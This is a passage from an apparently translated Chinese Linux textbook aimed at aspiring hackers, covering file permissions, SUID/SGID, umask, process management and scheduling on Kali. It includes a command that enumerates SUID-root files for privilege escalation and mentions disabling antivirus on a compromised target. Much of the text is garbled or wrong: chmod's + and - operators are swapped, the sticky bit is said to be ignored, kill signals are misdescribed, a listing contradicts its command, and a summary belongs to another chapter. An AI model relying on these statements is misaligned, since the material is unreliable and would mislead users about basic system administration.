drwxr-xr-x 2 kali kali 4096 Dec 5 11:17 Downloads

drwxr-xr-x 2 kali kali 4096 Dec 5 11:17 Music
```

输出显示 cameradar 已成功克隆到你的系统，并创建了一个名为 cameradar 的新目录用于存放其文件。

## 总结

在本章中，你学习了在 Linux 系统上下载和安装新软件的多种方法之一。软件包管理器（如 apt）、基于 GUI 的安装程序以及 `git clone` 是一个有志向的黑客需要需要的的最常用且至关重要的方法。你很快就会发现自己熟悉了每种方法。

## 练习题

- 1. 从 Kali 仓库安装一个新的软件软件包。
- 2. 移除该软件软件包。
- 3. 更新你的仓库。
- 4. 升级你的软件包。
- 5. 从 GitHub 选择一个新软件并将其克隆到你的系统。

# 5

## 控制文件和目录权限


并不是同一个操作系统的每个用户都应该对其文件和目录具有相同级别的访问权限。与任何专业级或企业级操作系统一样，Linux 拥有保护文件和目录访问的方法。这种安全系统允许系统管理员（root 用户）或文件所有者通过授予特定用户读取、写入或执行文件的权限，来保护其文件不受意外访问或篡改。对于每个文件和目录，我们可以为文件所有者、特定用户组以及所有其他用户指定权限状态。这在需要权限的多用户企业级操作系统中是必要的。否则，情况将会变得混乱。

在本章中，我将向你展示如何检查特定用户的文件和目录权限更改，以及如何设置默认的文件目录权限。最后，你将看到黑客对权限的理解如何帮助他们利用系统。

### 不同类型的用户

如你所知，在 Linux 中，root 用户无所不能。root 用户基本上可以在系统上执行任何事情。系统上的其他用户的能力和权限受到限制，几乎没有 root 用户拥有的访问权限。

这些其他用户通常被归到具有相似功能的组中。在商业实体中，这些组可能包括财务、工程、销售等。在 IT 环境中，这些组可能包括开发者、网络管理员和数据库管理员。其思想是将具有需求的人归到一个组，并授予相关权限；然后组的每个成员都会继承组权限。这主要是为了方便管理权限，从而提高安全性。

root 用户默认是 root 组的一部分。系统上的每个新用户必须被添加到某个组中，以便继承该组的权限。

### 授予权限

每个文件必须为使用它的不同身份分配特定的权限级别。三级权限分别如下：

- 读取权限仅授予打开和查看文件的权限。
- 写入权限允许用户查看和编辑。
- 执行权限允许用户执行（但不一定可以查看或编辑）。

通过这种方式，root 用户可以根据需求授予用户特定级别的权限。当创建一个文件时，创建该文件的用户通常是该文件的所有者，而所属组是该用户的组。文件所有者可以授予其各种特权。让我们看看如何更改个人和组的权限。

### 授予个人所有权

要将文件的所有权转移给不同的用户，使其能够控制权限，我们可以使用 `chown`（更改 owner）命令：

```bash
chown bob:tmp/bobsfile
```

在这里，我们输入命令、我们要授予所有权的用户名，然后是相关文件的位置和名称。此命令授予了用户 Bob `bobsfile` 的所有权。

### 授予组所有权

要将文件的所有权从一个组转移到另一个组，可以使用 `chgrp`（更改组）命令。黑客通常更倾向于单独工作而非小组合作，但黑客要合作完成一个项目，使用组是必要的。例如，你可能有一组黑客和一组安全人员在同一个项目上工作。示例中的黑客是 root 组，这意味着他们拥有所有权限。root 组需要访问入侵检测系统等黑客工具。假设 root 组下载并安装了一个名为 IDS 的程序；他们将需要将所有权转移给安全组，以便安全组可以使用它。为了这样做，root 组可以输入以下命令：

```bash
sudo chgrp security IDS
```

此命令传递了 IDS 的所有权。现在你需要知道如何检查这些分配是否生效。

### 检查权限

当你想知道授予用户的某个文件或目录权限时，使用 `ls -l`（long）切换位以长格式显示目录内容。此列表将包含权限。以下示例展示了对文件 `/usr/share/hascat`（我最喜欢的密码破解工具之一）执行 `ls -l` 命令的情况，以便看到从这些文件中学习到什么：

```bash
ls -l /usr/share/hascat
total 3295

drwxr-xr-x 5 root root 4096 Dec 5 10:47 charset

-rw-r--r-- 1 root root 3368504 Jun 28 2024 hascat.hcstat

-rw-r--r-- 1 root root 3368504 Jun 28 2024 hascat.hct

drwxr-xr-x 2 root root 4096 Dec 5 10:47 masks

drwxr-xr-x 2 root root 4096 Dec 5 10:47
```


每一行我们我们获取以下信息：

- 文件类型（这是第一列字符）
- 所有者、组和所有其他用户的权限（这是该部分的剩余）
- 链接数（超出本文范围的内容）
- 文件所有者
- 文件的字节大小
- 创建或最后修改的时间
- 文件名

现在，让我们关注每行左侧看似难以理解的字符和破折号。它们告诉我们项目是文件还是目录，以及它具有什么权限。

第一个字符告诉文件类型，其中 `d` 代表目录，`-` 表示文件。这是最常见的两种文件类型。

接下来的部分定义文件的权限。有三组字符，由 `(r)`、`(w)` 和 `(x)` 的某种组合组成，顺序如下。第一组代表所有者的权限；第二组代表组的；最后一组代表所有其他用户。

无论你查看的是哪三个字符，对于文件，如果你看到 `r`，则该用户或组具有打开和读取文件或目录的权限。中间的 `w` 表示他们可以写入（修改）文件，结尾的 `x` 表示他们可以执行（或运行）文件或目录。如果任何 `r`、`w` 或 `x` 被破折号 `-` Replace，则未授予相应的权限。注意，用户可以执行二进制文件或脚本。

让我们以第三行为例：

```
-rw-r--r-- 1 root root 3368504 Jun 28 2024 hascat.hcstat
```

正如从行尾可知，文件名为 `hascat.hcstat`。在初始的 `-`（表示文件）之后，权限告诉我们所有者拥有读取和写入权限，但没有执行权限。

下一组权限（`r--`）代表组的权限，显示该组具有读取权限但没有写入或执行权限。最后，我们看到其他用户也只有读取权限（`r--`）。

# 使用十进制符号修改权限

我们可以使用一个数字来表示 `rwx` 权限集，这是一种快捷方法。就像操作系统的底层一切都是一样，权限是以二进制形式表示的，因此开启和关闭分别用由 1 和 0 表示。你可以将 `rwx` 权限视为三个开启/关闭开关，当所有权限都被授予时，这等同于 `111`。

然后我们可以通过将此类二进制集合转换为八进制，轻松地表示为单个数字。八进制是一个从 0 到 7 的八位数字系统。一个八进制位代表三个二进制位，这意味着我们可以用一个数字表示整个 `rwx` 集合。表 5-1 包含了所有可能的权限及其对应的八进制和二进制表示。

表 5-1：权限的八进制和二进制表示

| 二进制 | 八进制 | rwx |
|---|---|---|
| 000 | 0 | -- |
| 001 | 1 | -x |
| 010 | 2 | -w- |
| 011 | 3 | -wx |
| 100 | 4 | r-- |
| 101 | 5 | r-x |
| 110 | 6 | rw- |
| 111 | 7 | rwx |

利用这些信息，让我们来看一些例子。首先，如果我们只想设置读取权限，可以查阅表 5-1 并找到读取权限的值：

```
r w x

4 - -
```

接下来，如果我们想将权限设置为 `rwx`，可以使用相同的方法，并查找设置 `w` 和设置 `x` 的值：

```
r w x

2 - 1
```

注意表 5-1，`-wx` 的八进制表示是 `3`，这恰巧与我们分别设置 `w` 和 `x` 的值并相加的结果相同：`2 + 1 = 3`。

最后，当所有三个权限都开启时，看起来是这样的：

```
r w x

4 2 1
```

并且 `4 + 2 + 1 = 7`。我们看到，在 Linux 中，当所有权限开关都开启时，它们由等价的八进制 `7` 表示。因此，如果我们想为所有者、组和所有用户设置所有权限，可以写成：

## 7 7

这就是快捷方法的用武之处。通过向 `chmod` 传递三个八进制数字（每个用户一个），后接文件名，我们可以更改每个类型用户的文件权限。在命令行中输入以下内容：

```
kali> sudo chmod 774 hascat.hashstat
```

查看表 5-1，我们可以看到该语句赋予了所有者所有权限、组所有权限，以及其他所有人仅读取权限。

现在我们可以通过对目录运行 `ls -l` 并查看 `hascat.hstat` 行来检查权限是否已更改。进入该目录并运行该命令：

| kali> ls -l |
|---|---|
| total 32952 4096 root Dec 5 10:47 charsets |
| -rwxr-xr-x 5 root 33685504 June 28 2024 hascat.hstat |
| -rw-r--r-- 1 root 33685504 June 28 2024 hascat.hctune |
| drwxr-xr-x 2 root root 4096 Dec 5 10:47 masks |
| drwxr-xr-x 2 root root 4096 Dec 5 10:47 OpenCL |
| drwxr-xr-x 3 root root 4096 Dec 5 10:47 rules |

你应该在 `hascat.hstat` 行的左侧看到 `-rwxr-xr--`。这证实了 `chmod` 调用成功更改了文件权限，赋予了所有者和组执行该文件的能力。

## 使用 UGO 修改权限

虽然数字方法可能是在 Linux 中更改权限的最佳方法，但有些人发现 `chmod` 的符号方法更直观。这两种方法的效果一样好，因此选择适合用户（或所有者）、组和其他其他人的方法即可。

`UGO` 语法非常简单。输入 `chmod` 命令，后跟你想要更改权限的对象：`u` 代表用户（user）、`g` 代表组（group）、`o` 代表其他人（others），以及三个运算符之一：

- `+` 移除权限
- `-` 添加权限
- `=` 设置权限

在运算符之后，包含你想添加或删除的权限 (`rwx`)，最后是应用该权限的文件名。例如，如果你想从文件 `hashcat.hashstat` 所属的用户中移除写入权限，可以输入：

```
kali> sudo chmod u-w hashcat.hashstat
```

该命令表示从用户 (`u`) 处移除 `hashcat.hashstat` 的写入 (`w`) 权限 (`-`)。现在当你再次用 `ls -l` 检查权限时，你应该发现 `hashcat.hashcat` 文件不再对用户具有写入权限：

```
kali> ls -l

total 32952

drwxr-xr-x 5 root root 4096 Dec 5 10:47 charsets

-r-xr-- 1 root root 3368504 June 28 2024 hascat.hashcat

-rw-r--r-- 1 root root 33685504 June 28 2024 hascat.hctune

drwxr-xr-x 2 root root 4096 Dec 5 10:47 masks

drwxr-xr-x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr-xr-x 3 root root 4096 Dec 5 10:47 rules
```

你也可以通过一个命令更改权限。如果你想给用户和其他用户（不包括组）执行权限，可以输入：

```
kali> chmod u+x,o+x hascat.hashstat
```

该命令告诉 Linux 为 `hascat.hashstat` 添加用户和其他人的执行权限。

## 赋予执行权限

作为一个黑客，你经常需要下载工具，但因为 Linux 自动为文件和目录分配 `666` 和 `777` 的默认权限，你下载后无法立即执行文件。如果尝试，通常会收到“Permission denied”。在这种情况下，你需要使用 `chmod` 赋予执行权限。例如，假设我们下载了一个名为 `newhashtool` 的工具并将其放入目录：

```
kali> ls -l

total 32952

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Desktop

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Documents

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Downloads

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Music

-rw-r-- 1 root root 1072 Dec 5 10:47 newhashtool

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Pictures

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Public

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Templates

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Videos
```

我们可以看到根目录以及 `newhashtool` 的情况。我们可以看到 `newhashtool` 对任何人都没有执行权限，这使得它无法使用。Linux 默认不让你执行下载的文件似乎很奇怪，但总的来说这让你的系统更安全。我们可以通过输入以下内容赋予 `newhashtool` 执行权限：

```
kali> sudo chmod 766 newhashtool
```


现在我们对目录进行长列出，可以看到 `newhashtool` 对所有者具有执行权限：

```
root@kali ls -l

total 80

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Music

-rwxr-rw- 7 root root 1072 Dec 5 10:47 newhashtool

drwxr-xr-x 7 root root 4096 Dec 5 10:47 Pictures
```

这赋予了我们（所有者）所有权限（包括执行），并赋予了组和其他其他人读写权限（4+2=6）。

## 使用掩码设置更安全的默认权限

如前所述，Linux 会自动分配权限（文件通常为 666，目录为 777）。你可以使用 `umask`（文件创建掩码）更改每个用户创建的文件和目录的默认权限。`umask` 表示你想从文件或目录的基础权限中移除的权限，使其更安全。

`umask` 是对应三个权限的三位八进制数；此数字从权限数中减去，得到新的权限状态。这意味着当创建一个新文件或目录时，其权限被设置为默认值减去 `umask`，如图 5-1 所示。

| 新文件 | 新目录 | |
|---|---|---|
| 6 6 6 | 7 7 7 | Linux 基础权限 |
| 0 2 2 | - 0 2 2 | umask |
| 6 4 4 | 7 5 5 | 结果权限 |

图 5-1：`umask` 值 022 如何影响新文件和目录的权限

例如，如果 `umask` 设置为 022，原始权限为 666 的新文件现在将具有 644 权限，这意味着所有者同时具有读写权限，而组和其他用户只有读取权限。

在 Kali 以及大多数 Debian 系统中，`umask` 预配置为 022，这意味着 Kali 的默认文件为 644，目录为 755。

`umask` 并不适用于系统的所有用户。每个用户都可以在个人的 `.profile` 文件中为文件和目录设置默认 `umask` 值。以用户身份登录时查看当前值，只需输入 `umask` 并注意返回的结果。要更改该用户的 `umask`，请编辑 `/home/username/.profile` 文件，例如，添加 `umask 007` 以设置为用户和组成员的权限。

## 授予 Root 用户组权限

`SGID` 位也授予了临时权限，但它授予的是文件所有组的权限，而不是所有者的权限。这意味着，设置了 `SGID` 位，任何该组的用户都可以执行该文件。

`SGID` 位在应用于目录时工作方式略有不同：当目录设置了该位时，在该目录下创建的新文件将属于该目录的所有组，而不是创建者的组。当目录被多个用户共享时，这非常有用。

`SGID` 位在普通权限前表示为 2，因此当设置了 `SGID` 位时，权限将是 2644。再次，你将使用 `chmod` 命令进行操作。

## 粘位

粘位是一种设置在目录上的权限，允许用户删除或重命名目录内的文件。然而，粘位是旧版 Unix 系统的遗留，现代系统（如 Linux）会忽略它。因此，我在这里不会进一步讨论它，但你应该在 Linux 世界中熟悉这个术语。

## 特殊权限、权限提升与黑客

作为黑客，你可以利用这些特殊权限通过权限提升利用 Linux 系统，使得普通用户获得 root 或管理员权限。

实现此点的一种方法是在程序上设置 `SUID` 位，允许程序以 root 权限运行。例如，某些脚本经常设置 `SUID` 位。如果攻击者能够控制该程序，他们就可以利用该程序访问 `/etc/shadow` 文件来成功完成任务。

让我们查看系统中设置了 `SUID` 位的文件来尝试一下。在第 1 章中，我向你介绍了 `find` 命令。请记住，`find` 命令比其他命令（如 `locate`）更强大。在 `4000` 这种情况下，我们想在文件系统中查找任何属于 root 用户或管理员的文件。要做到这一点，我们可以运行：

```bash
kali> sudo find / -user root -perm -4000
```

通过这个命令，让 Kali 查找属于 root 且设置了 `SUID` 位的文件。当我们运行此命令时，会得到以下输出：

```
/usr/bin/chsh

/usr/bin/gpasswd

/usr/bin/pkexec

/usr/bin/sudo

/usr/bin/passwd
```

输出显示了许多设置了 `SUID` 位的文件。让我们导航到许多这些文件所在的 `/usr/bin` 目录，然后对该目录运行长列表并滚动：

```
root@kali cd /usr/bin
root@kali ls -l
----
-rwxr-xr-x 1 root 176272 Jul 18 2024 stunnel
-rwxr-xr-x 1 root 266966 Mar 17 2024 sucrack
-rwxr-xr-x 1 root 140944 Jul 5 2024 sudo
----
```

注意所有者的第一组权限 `s` 代替了 `x`。这表示 `SUID` 位已设置，这意味着运行该文件的任何人具有 root 权限，这对于管理员是一个安全隐患，对于黑客则是潜在的攻击向量。例如，某些应用程序需要访问 `/etc/shadow` 来成功完成任务。

Linux 拥有一完善的安全系统来防止未经授权的访问文件和目录。黑客需要对该系统有基本的了解，不仅是为了保护文件，还为了执行新工具。在某些情况下，黑客可以利用 `SUID` 和 `SGID` 权限将权限从普通用户提升到 root 用户。

## 总结

Linux 使用权限来保护用户或组的文件和目录免受其他用户的侵害，你可以将其用于进攻和防御目的。你应该知道如何管理权限，以及如何利用该安全系统的弱点，特别是 `SUID` 和 `SGID` 位。

## 练习

1. 选择一个目录并对其运行长列表。注意文件和目录的权限。
2. 选择一个没有执行权限的文件，使用 `chmod` 命令为自己赋予执行权限。尝试使用数字方法 `777` 和 UGO 方法。
3. 选择另一个文件并使用 `chown` 它的所有者。
4. 使用 `find` 命令找到所有设置了 `SGID` 位的文件。

# 进程管理

在任何时刻，典型的 Linux 系统都有成百上千、甚至数万个进程同时运行。进程仅仅是一个运行并使用资源的程序，无论是终端、Web 服务器、运行中的命令、任何数据库、GUI 界面或其他内容。

任何优秀的 Linux 管理员，特别是任何一个黑客，都需要理解如何管理他们的进程以优化系统。例如，一旦黑客接管了目标系统，他们可能想要找到并停止杀病毒软件或防火墙。要做到这一点，黑客首先需要知道如何找到这个进程。黑客可能还想设置一个定期运行的扫描脚本来发现漏洞系统，我们也将如何调度这样的脚本。

在本章中，你将学习管理这些进程。首先，你将学习查看和查找进程，以及如何发现哪些进程占用资源最多。然后，你将学习通过在后台运行、设置优先级以及在必要时杀死它们（不涉及血腥）来管理进程。最后，你将学习在指定的日期和特定时间调度进程运行。

## 查看进程

在很多情况下，管理进程的第一步是查看正在运行的内容。查看进程的主要工具（也是 Linux 管理员的好朋友）是 `ps` 命令。在命令行中运行它查看活跃的进程：

```
kali> ps
PID TTY     TIME CMD
39659 pts/0    00:00:01 bash
39665 pts/0    00:00:00 ps
```

你的系统应该具有相同的格式。对于我们的目的，这里是输出中最重要的列：

- USER: 调用该进程的用户
- PID: 进程 ID
- %CPU: 该进程占用的 CPU 百分比
- %MEM: 该进程占用的内存百分比
- COMMAND: 启动该进程的命令名称

通常情况下，要对进程执行任何操作，我们必须指定其 PID。让我们看看如何利用这个标识来为服务。

## 通过进程名过滤

当我们查询进程时，我们通常不希望屏幕上显示每一个进程。这仅仅是信息量过大的问题。通常，我们想找到某个特定进程的信息。为了做到这一点，我们使用过滤命令 `grep`，我在第 1 章中介绍过它。

为了演示，我们将使用 Metasploit 利用框架，它是最广泛使用的利用框架（也是几乎每个黑客的好朋友）。它预装在 Kali 系统中，你可以通过以下命令启动它：

```
kali> msfconsole
```

利用框架启动后，让我们看看是否能在进程列表中找到它。Metasploit 现在已接管该终端，因此请打开另一个终端。现在，在 Linux 中，使用 `ps aux` 命令并将其传递给 `grep`，查找 `msfconsole`：

```
kali> ps aux | grep msfconsole
kali 39756 0.0.0 4304 716 pts/2 Ss+ 15:13 00:00 sh -c service postgresql start &&msfconsole
kali 39759 35.1 15.2 4304 22788 pts/2 Sl+ 15:13 1:36 ruby /usr/bin/msfconsole
```


kali 39892 0.0.0 4304 940 pts/2 S+ 15:18 0:00 grep msfconsole

```
列表 6-2：通过过滤 ps 查找特定进程。
```

从过滤后的输出列表中，你可以看到所有匹配 `msfconsole` 的进程。Metasploit 使用的 PostgreSQL 数据库显示了出来，随后是来自 `/usr/bin/msfconsole` 的 `msfconsole` 程序本身。最后，你看到了你用来查找 `msfconsole` 的 `grep` 命令。注意，输出并不包含来自 `ps` 的列标题列表。因此，结果以相同的格式显示。

通过这些，你可以学习到重要的信息。例如，如果我需要知道 Metasploit 正在使用多少资源，你可以查看第三列（CPU），看到它使用了你 35.1% 的 CPU，并查看第四列看到它使用了你 15.2% 的系统内存。这相当可观。它是一头耗费资源的猛兽！

## 使用 top 寻找最贪婪的进程

当你输入 `ps` 命令时，它按照进程启动的顺序显示进程。但在某些情况下，我们想知道哪些进程正在使用最多的资源。这时 `top` 命令就派上用场了；它按资源对进程进行排序，从最大的开始。与提供一次性快照的 `ps` 命令不同，`top` 默认每秒刷新一次列表。这让你能够监控资源密集型进程，如列表 6-3 所示。

```
kali~$ top

top - 15:31:17 2 days, 6:50, 4 users, load average: 0.00, 0.04, 0.09

Tasks: 176 1 running, 15 sleeping, 0 stopped, 0 zombie

%Cpu(s): 1.3 us, 0.7 sy, 0.0 ni, 97.4 id, 0.0 wa, 0.0 hi 0.0 si 0.0

Mem : 1491220 total, 64848 free, 488722 used, 938100 buff/cache

Swap : 1046524 total, 104356 free, 2168 used, 784476 available Mem

PID USER PR NI VIRT RES SHR S %CPU %MEM TIME COMMAND

39759 20 0 893180 247232 S 0.7 16.6 1:47.88 ruby

39859 20 0 27308 16796 142722 S 0.3 1.2 1:47.88 postgres

39933 20 0 293936 61500 S 0.7 4.1 1:47.88 X
```

列表 6-3：使用 top 寻找最贪婪的进程。

系统管理员会保持 `top` 在终端运行以监控进程资源。作为一名黑客，你可能也想这样做，特别是当你的系统上运行多个任务时。当你运行 `top` 时，按下 `H` 或 `?` 键将列出交互命令列表，按下 `Q` 将退出 `top`。你将在下文“使用 nice 更改进程优先级”和“杀死进程”中再次使用 `top` 来管理你的进程。

## 管理进程

黑客经常需要管理多个进程。例如，他们可能同时运行一个扫描器、一个漏洞扫描器和一个利用程序。这需要黑客高效地管理这些进程并完成任务。

## 使用 nice 更改优先级

使用 `nice` 术语背后的想法是，当你使用它时，是在决定你对其他用户有多“友好”；如果你的进程正在使用系统大部分资源，你就不友好。传递给 `nice` 的值范围从 -20 到 +19，0 是默认值。高 `nice` 值对应低优先级，低 `nice` 值对应高优先级。当进程启动时，它继承其父进程的 `nice` 值。进程的所有者可以降低优先级，也可以增加它。当然，root 用户可以任意设置 `nice` 值。在启动进程后，也可以设置优先级。这两个命令的语法略有不同，可能会引起淆。`nice` 命令需要你增加 `nice` 值，而 `renice` 命令想要一个绝对值。让我们来看一个例子。

## 设置优先级

为了演示，假设我们有一个名为 `slowprocess` 的进程位于 `/bin/`。如果我们想加快它的完成，可以使用 `nice` 命令启动：

```
kali> sudo nice -n -10 /slowprocess
```

此命令将 `nice` 值增加了 -10，从而提高了优先级并为其分配更多资源。另一方面，如果我们想对其他用户友好并给 `slowprocess` 较低的优先级，可以将其 `nice` 值增加 10：

```
kali> sudo nice -n 10 /slowprocess
```

在一个当前运行的进程上尝试这个，运行 `ps` 查看变化。

## 使用 renice 更改运行进程的优先级

`renice` 命令取 -20 到 19 之间的绝对值，并将优先级设置为特定水平，而不是增加或减少它。此外，`renice` 需要提供目标进程的 PID 而不是名称。因此，如果 `slowprocess` 正在消耗大量资源，而你想让其他进程访问更多资源，你可以对 `slowprocess`（其 PID 为 6996）执行 `renice` 并赋予一个很高的值，如下：

```
kali$ sudo renice 19 6996
```

作为 `nice`，只有 root 用户可以将进程设置为负值以获得更高的优先级，但任何用户都可以降低优先级。你也可以使用 `top` 工具更改 `nice` 值。在 `top` 工具运行时，只需按下 `R` 然后提供进程的 PID 和 `nice` 值。列表 6-4 显示了当我按下 `R` 键并提供 PID 和 `nice` 值时，`top` 工具的运行及其输出。

```
top - 21:56 up 21:41, 2 users, load average: 0.60, 0.22, 0.11

Tasks: 128, 1 running, 127 sleeping, 0 stopped, 0 zombie

%Cpu: 1.5 us, 0.7 sy, 0.0 ni, 96.7 id, 1.1 wa, 0.0 hi, 0.0 si, 0.0 st

KiB Mem: 511864 total, 500780 used, 11084 free, 152308 buffers
```


KiB Swap: 90116 total, 14444 used, 88672 free, 171376 cached

| USER | PR | NI | VIRT | RES | SHR | %CPU | SMEM | TIME | COMMAND |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 5451 | root | 20 | 0 | 1577m | 19m | 14m | 5.2 | 3.9 | 42:46:26 | OLLYDBG.EXE |
| 2766 | root | 20 | 0 | 55880 | 20m | 5480 | 2.6 | 4.0 | 1:01:42 | Xorg |
| 5456 | root | 20 | 0 | 63956 | 4272 | 1780 | 1.5 | 0.8 | 13:21:26 | wineserver |
| 7 | root | 20 | 0 | 0 | 0 | 0.3 | 0.0 | 0:30:12 | rcu_sched |
| 5762 | root | 20 | 0 | 174m | 20m | 17m | 0.3 | 4.1 | 0:04:74 | gnome-terminal |

### 列表 6-4：当使用 `top` 时更改 `nice` 值

## 杀死进程

有时，一个进程会消耗许多系统资源，表现出异常行为，最糟糕的情况下冻结。此类进程通常被称为僵尸进程。例如，最问题的症状可能是僵尸进程浪费资源，而更好的做法是……

当你识别出一个有问题的进程时，你可能想用 `kill` 命令停止它。杀死程序有许多方法，因为 `kill` 命令有 64 个信号，每个信号的作用都略有不同。在这里，我们关注你可能觉得最有用的几个。`kill` 命令开关的语法是可选的。如果不提供信号标志，它默认为 `SIGTERM`。列表 6-1 列出了常用信号

### 表 6-1: 常用 Kill 信号

| 信号名称 | 编号选项 | 说明 |
| :--- | :--- | :--- |
| SIGHUP | 1 | 这被称为*挂断 (HUP)* 信号。它会停止指定的进程并用相同的 PID 重启它 |
| SIGINT | 2 | 这是*中断 (INT)* 信号。这是一个弱力 kill 信号，不保证一定有效，但在大多数情况下是可以的 |
| SIGQUIT | 3 | 这被称为*核心转储 (core dump)*。它会终止进程并保存内存中的进程信息。然后它将这些信息保存到当前工作目录的名为 *core* 的文件中。[这样做的原因超出了本本书的讨论范围。] |
| SIGTERM | 15 | 这是*终止 (TERM)* 信号。它是 `kill` 命令的默认信号 |
| SIGKILL | 9 | 这是绝对 kill 信号。它通过将进程资源发送到特殊设备 `/dev/null` 来强制进程停止 |

使用 `top` 命令，你可以识别出哪些进程占用了过多资源；通常，这些进程是合法的，但也可能存在恶意进程正在占用资源，你想要杀掉它们。

如果你只是想用 HUP 信号重启进程，请在 `kill` 后输入 `-1` 选项，如下所示：

```bash
kali sudo kill -1 6996
```

对于僵尸进程或恶意进程，你可能想向进程发送 `kill -9` 信号，即绝对 kill 信号。这会让进程终止。

```bash
kali sudo kill -9 6996
```

如果你不知道 PID，可以使用 `killall` 命令来杀死进程。该命令接受进程名称 own PID 作为参数。例如，你可以这样终止一个假设的僵尸进程 `zombieprocess`：

```bash
kali sudo killall -9 zombieprocess
```

最后，你也可以在 `top` 命令中终止进程。只需按下 `K` 键，然后输入故障进程的 PID 即可。

### 在后台运行进程

在 Linux 中，无论你是在命令行界面还是 GUI 下工作，你都在一个 shell 中操作。你运行的所有命令都是在该 shell 内部执行执行的，即使它们是从图形界面运行的。当你执行一个命令时，shell 会等待命令完成后才会提供下一个命令提示符。

有时，你可能希望一个进程在后台运行，而不是在终端中等待它完成。例如，假设我们想在文本编辑器中处理一个脚本。我们会输入以下内容来调用文本编辑器（mousepad）：

```bash
kali sudo mousepad newscript
```

`bash` shell 将打开 `mousepad` 来创建 `newscript`。当我们于 `mousepad` 中工作时，终端将忙于运行它，而不会显示允许我们输入更多命令的新提示符。

当然，我们也可以打开另一个终端来运行更多命令，但节省资源和屏幕空间的更好选择是让文本编辑器在后台运行。在后台运行进程意味着它将继续运行，而不需要终端。这样，终端就可以释放出来处理其他任务。

要在后台启动编辑器，只需在命令末尾添加一个安培符号 (`&`)，如下所示：

```bash
kali sudo mousepad newscript &
```

现在，当文本编辑器打开时，终端会返回一个新的提示符，这样我们就可以在编辑 `newscript` 的同时在系统上输入其他命令。对于任何在你想要使用终端时可能运行长时间的进程，这种方法都是有效的。作为一名黑客，你会发现这对于运行带有多个任务的多个终端非常有用，允许你节省资源和屏幕空间。

你也可以使用 `bg` 命令后跟进程的 PID 将进程移动到后台。如果你不知道 PID，可以使用 `ps` 命令找到它。

### 将进程移动到前台

如果你想将一个在后台运行的进程移动到前台，可以使用 `fg` (foreground) 命令。`fg` 命令需要你想要返回前台的进程名称，如下所示：

```bash
kali sudo fg newscript
```

### 调度进程

Linux 系统管理员和黑客经常需要在一天天中的特定时间调度进程。例如，系统管理员可能想在每个周六晚上凌晨 2:00 调度一次系统备份。黑客可能想设置一个脚本定期运行，以寻找开放的端口或漏洞。在 Linux 中，你至少有两种方式实现这一目标：使用 `at` 和 `cron`。

`at` 命令用于设置 `atd` 守护进程（后台进程），它适用于调度在未来某个时间运行一次的任务。`cron` 守护进程更适合调度每天、每周或每月执行一次的任务，我们将在第 16 章中详细介绍。要使用 `at`，必须在你的系统中安装它：

```bash
kali sudo apt install at
```


我们使用该守护进程在未来执行一个命令或一组命令，在命令后紧跟执行该进程的时间。时间参数可以以各种格式提供。表 6-2 包含了最常见的 `at` 时间格式。

### 表 6-2：命令接受的时间格式

| 时间格式 | 含义 |
| :--- | :--- |
| at 7:20pm | 计划在今天下午 7:20 运行 |
| at 7:20pm June 25 | 计划在 6 月 25 日下午 7:20 运行 |
| at noon | 计划在中午运行 |
| at tomorrow | 计划在明天运行 |
| at now + 20 minutes | 计划在现在 20 分钟后运行 |
| at now + 10 hours | 计划在现在 10 小时后运行 |
| at now + 5 days | 计划在 5 天后运行 |
| at now + 3 weeks | 计划在 3 周后运行 |
| at 7:20pm | 计划在当天下午 7:20 运行 |

## 总结

在新手感到困难的话题中，管理环境变量可能是最困难的。本章涵盖了一些实用的技能，但没有深入探讨。在 Kali 中，你的环境就是 shell。要充分利用 Linux，你需要理解并精通它们。

### 练习

1. 使用 `top` 命令查看占用最多的进程。
2. 使用 `kill` 命令停止进程。
3. 使用 `renice` 命令降低进程的优先级。
4. 使用 `ps` 命令查看运行中的进程。
5. 使用 `at` 命令调度一个稍后运行。

### 将默认 shell 改为 Bash

在这里，我需要深入探讨一些深奥的内容。在开始之前先向大家道歉。我会尽量保持简短。

我们所说的终端技术上是一个“shell”。它让我们通过命令行访问操作系统（在本例中为 Linux）。从 Linux 诞生以来，它一直使用 Bourne-Again Shell `BASH` 作为默认 shell。当然，它不是唯一的 shell，但大多数人已经习惯了它的特性和功能。最近，出现了一种转向 Z shell `zsh` 的趋势，它提供了许多与 bash shell 不同的新功能。它最近被 Apple 和 Kali 的开发者所采用。现在它是 Kali 的默认 shell。

本书的一大主要目标是以简洁易懂的方式教授 Linux。除了 Kali 之外，几乎所有你可能工作的其他 Linux 发行版都使用 Bash。出于这个原因，我认为现在将我们 Kali 系统的默认 shell 更改为广泛使用的 bash。幸运的是，Kali 的开发者让从默认的 Z shell 切换到经典的 bash 变得极其简单。

在 Kali 提示符处输入 `kali-tweaks`：

```bash
kali> sudo kali-tweaks
```

按下回车键后会弹出一个简单的图形界面，如图 7-1 所示，唤起你对 Windows 98 的美好回忆（以原色为主的设计）。



图 7-1: `kali-tweaks`

通过此菜单，你可以加固命令行界面使其更加安全、安装额外的黑客工具、配置存储库、更改 shell 和提示符，并配置你的虚拟机。

按向下箭头键直到 **Shell & Prompt** 被高亮，然后按回 选择。下一个屏幕将为你提供三个选择：配置提示符（Configure Prompt）、设置默认登录 shell（Set the Default Login Shell）和重置 Shell 配置（Reset the Shell Config files）。突出第二个选项并按 **ENTER**。

